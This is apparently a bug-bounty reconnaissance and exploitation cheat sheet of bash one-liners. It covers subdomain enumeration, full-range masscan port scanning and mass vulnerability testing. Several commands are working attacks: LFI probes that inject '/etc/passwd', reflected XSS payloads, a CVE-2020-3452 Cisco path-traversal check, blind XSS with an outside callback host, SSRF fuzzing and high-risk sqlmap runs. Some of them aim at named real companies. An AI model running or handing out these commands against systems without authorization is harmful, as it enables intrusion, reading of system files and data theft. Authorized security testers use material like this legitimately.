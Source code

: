 # Common 

## domains
```bash 
cat wildcards.txt | assetfinder -subs-only | anew domains
```

```bash 
amass enum -df wildcards.txt | anew domains
```

```bash 
subfinder -silent -dL wildcards.txt| anew domains
```

```bash 
for i in $(cat wildcards.txt);do bash ~/scripts/Sub-Drill.sh $i | anew domains;done 
```

* Extra cli methods for extra wide scope
```bash
curl "https://crt.sh/?q=yahoo&output=json" | jq -r ".[].common_name" | sed 's/\*.//g' | anew crt_domains
```

## Port scan 

```bash
while read l; do ip=$(dig +short $l|grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b"|head -1);echo "[+] '$l' => $ip";echo $ip >> ips.txt;done < domains.txt
```

```bash
masscan -p1-65535 -iL ips.txt --max-rate 1800 -oG output.log
```

## Filter domain by level 

```bash
cat domains | dsieve -f 2
```

## one liners and tools

```bash 
sort -u domains | httprobe > uniq.txt
```

```bash
crlfuzz -l uniq.txt -s
```

```bash
gau uniq.txt | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```

```bash 
cat uniq.txt |waybackurls | gf xss | sed 's/=.*/=/' | sort -u | tee FILE.txt && cat FILE.txt | dalfox -b l3gend.xss.ht pipe > OUT.txt
```

```bash
python3 ~/tools/Corsy/corsy.py -i uniq.txt 
```

```bash 
python3 ~/tools/XSStrike/xsstrike.py -u "https://www.glassdoor.com/rss/interviews.rss?id=lol" 
```

```bash
python3 ~/tools/smuggler/smuggler.py -u "https://google.com" -m GET -q
```

```bash
python3 ~/tools/mass-bounty/CRLF-Injection-Scanner/crlf_scan.py -i uniq.txt
```


* CVE-2020-3452
```bash
┌──(root㉿0xlegendkiller)-[~/cves/CVE-2020-3452]
└─# pwd
/root/cves/CVE-2020-3452
                                                                                              
┌──(root㉿0xlegendkiller)-[~/cves/CVE-2020-3452]
└─# python3 CVE-2020-3452.py -i ~/private_hackerone/playtika/domains
```

```bash 
cat uniq.txt | while read h do; do curl -sk "$h/module/?module=admin%2Fmodules%2Fmanage&id=test%22+onmousemove%3dalert(1)+xx=%22test&from_url=x"|grep -qs "onmouse" && echo "$h: VULNERABLE"; done
```

```bash
while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < HOSTS.txt
```

```bash
subzy -targets domains -hide_fails
```

```bash
jaeles scan -s /root/.jaeles/base-signatures/cves/* -U domains.txt
```

## Heavy 
```bash
eyewitness --web -f uniq.txt -d /path_to_save_screenshots ##### optional , takes time, better grep for juicy domains and move forward
```

```bash
for I in $(ls); do 
        echo "$I" >> index.html;
        echo "<img src=$I><br>" >> index.html;
done
```

## SSRF Test (Wayback + Burp Pro)

```bash
cat wayback.txt | gf ssrf | sort -u >> testblindssrf.txt
```

```bash
cat testblindssrf.txt | qsreplace "burp_url" >> ssrfuzz.txt

ffuf -c -w ssrfuzz.txt -u FUZZ -t 200
```

## dalfox

```bash 
python3 ~/tools/ParamSpider/paramspider.py --domain google.com -o param.txt
```

```bash
dalfox -b l3gend.xss.ht file param.txt
```

## SQL Injection Mass Testing

```bash
subfinder -d tesla.com -silent -all | httpx -silent -threads 100 | katana -d 4 -jc -ef css,png,svg,ico,woff,gif | tee -a urls
```

```bash
cat urls | gf sqli | tee -a sqli
```

```bash
while read line;do sqlmap -u $line --parse-errors --current-db --invalid-logical --invalid-bignum --invalid-string --risk 3;done < sqli
```

## Finding deadlinks
```bash
for i in $(cat uniq.txt);do deadlinks $i|anew dead_Links;done
```

```bash
deadfinder file uniq.txt -o deadfinder.json
```

> https://www.deadlinkchecker.com/website-dead-link-checker.asp

> https://ahrefs.com/broken-link-checker

> https://brokenlinkcheck.com/broken-links.php


* Find valid links from wayback, cralwers, hawked etc 
```bash
cat wayback.txt| hakcheckurl | grep "200 http" | anew wayback200
```

